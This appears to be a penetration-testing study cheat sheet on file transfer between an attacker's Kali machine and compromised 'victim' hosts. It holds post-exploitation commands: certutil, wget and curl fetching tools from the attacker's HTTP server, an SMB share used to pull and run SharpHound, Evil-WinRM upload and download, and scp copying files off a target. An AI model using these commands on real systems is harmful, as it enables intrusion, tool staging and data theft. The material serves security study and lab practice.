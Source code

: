 ```yaml
---
description: >-
  This took lots of time for me to compile and understand. However, through
  applying the "try harder" mentality, this concept has made me gain more
  confidence in my competence.
cover: https://media3.giphy.com/media/xTiTnjZAjQipGn9JFS/200.gif
coverY: 0
---
```


# 📤 File Transfer

## Windows->Linux Methods

### SMB Server

On Kali:

```
impacket-smbserver smb .
```

On Windows:

```
net use \\<kali-ip>\smb

copy \\<kali-ip>\smb\SharpHound.exe .

dir

SharpHound.exe
```

* Be sure to open up the file through the file manager on Linux (GUI)
* This makes things easier

### Evil-WinRM

```
# Download to your Kali:
Evil-WinRM download /file/name/here

# Upload a file to the Windows victim from Kali
Evil-WinRM upload /file/name/here
```

## Linux->Windows

### Certutil

On Kali:

```
python3 -m http.server
```

On Windows:

```
certutil -urlcache -f http://<kali_ip_here:8000>/name_of_file name_of_file
```

### Evil-WinRM

```
Evil-WinRM: PS C:\programdata> upload /../../../PowerView.ps1
```

## Linux->Linux

### Wget

On Kali:

```
python3 -m http.server
```

On Victim:

```
wget http://<tun0_ip_here>:8000/<file_name_here> <file_name_here>
```

### Curl

On Kali:

```
python3 -m http.server
```

On Victim:

```
curl http://<tun0_ip_here:8000/<file_name_here> <file_name_here>
```

## SCP

* Is SSH open?
* SSH Creds or Key
* Identify path of file you want with <mark style="color:red;">`pwd`</mark>

Copying a file from a remote system to yours:

```
scp user@10.10.10.1:C:/ftp/infrastructure .
password:

Infrastructure.pdf                                                     100%   45KB 240.7KB/s   00:00    
```

Transfering a file from your system to a remote system:

```
scp root@10.10.10.1 -i ~/.ssh/id_rsa wordlist.txt /root/wordlists
```



## References

{% embed url="https://0xdf.gitlab.io/2018/10/11/pwk-notes-post-exploitation-windows-file-transfers.html" %}
